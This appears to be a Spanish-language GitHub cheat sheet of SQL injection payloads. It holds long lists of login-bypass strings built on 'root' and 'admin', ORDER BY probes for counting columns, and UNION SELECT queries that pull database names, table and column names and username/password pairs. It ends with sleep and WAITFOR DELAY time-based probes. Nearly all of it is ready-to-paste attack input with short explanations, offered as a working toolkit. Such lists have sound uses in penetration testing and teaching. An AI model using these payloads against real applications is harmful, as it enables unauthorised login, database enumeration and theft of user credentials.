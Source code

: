 
### 1-Login inyection
Estos payloads hacen referencia inyeciones de consultas de sql, tambien se pueden usar en los logins para conseguir el usuario de administrador generalmente.
```bash
root' --
root' #
root'/*
root' or '1'='1
root' or '1'='1'--
root' or '1'='1'#
root' or '1'='1'/*
root'or 1=1 or ''='
root' or 1=1
root' or 1=1--
root' or 1=1#
root' or 1=1/*
root') or ('1'='1
root') or ('1'='1'--
root') or ('1'='1'#
root') or ('1'='1'/*
root') or '1'='1
root') or '1'='1'--
root') or '1'='1'#
root') or '1'='1'/*

or 1=1
or 1=1--
or 1=1#
or 1=1/*
' or 1=1
' or 1=1--
' or 1=1#
' or 1=1 #
' or 1=1/*
" or 1=1
" or 1=1--
" or 1=1#
" or 1=1/*

1' or '1'='1

root" --
root" #
root"/*
root" or "1"="1
root" or "1"="1"--
root" or "1"="1"#
root" or "1"="1"/*
root" or 1=1 or ""="
root" or 1=1
root" or 1=1--
root" or 1=1#
root" or 1=1/*
root") or ("1"="1
root") or ("1"="1"--
root") or ("1"="1"#
root") or ("1"="1"/*
root") or "1"="1
root") or "1"="1"--
root") or "1"="1"#
root") or "1"="1"/*

admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin' or 1=1-- -
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
------------------------------------------
### 2- Determinar el número de columnas necesarias en un ataque UNION de inyección SQL
```sql
' ORDER BY 1--
```
Podemos ir testeando este payload para determinar cuantas columnas necesitamos. Ej: si con el payload del numero 3 significa que
la posición ORDER BY número 3 está fuera del rango del número de elementos en la lista de selección.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc ...
```

------------------------------------------
### 3- SQL injection UNION attacks
```sql
SELECT A, B FROM table1 UNION SELECT C, D FROM table2
```
Esta consulta SQL devolverá un único conjunto de resultados con dos columnas, que contienen los valores de las columnas A y B en la tabla1 y las columnas C y D en la tabla2.
```sql
union select 1,2-- -
union select 1,@@version
union select all 1,database()
union select all 1,table_schema from information_schema.tables 
union select all 1,table_name from information_schema.tables where table_schema='sysadmin' 
union select all 1,column_name from information_schema.columns where table_name='users' 
union select 1,(select group_concat(username,password) from sysadmin.users) 

' UNION SELECT username, password FROM users--
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc ...
```
------------------------------------------
### 4- Time delays
Los Time Delays crean un tiempo de espera al recibir la peticion cuando se ejecutan.

Delay de 5 segundos:
```sql
')) or sleep(5)='
```
Estos payloads se usan para testear si existe una inyeccion SQL porque no suponen un riesgo para la base de datos.

```sql
')) or sleep(5)='
' WAITFOR DELAY '0:0:5'--
';WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```

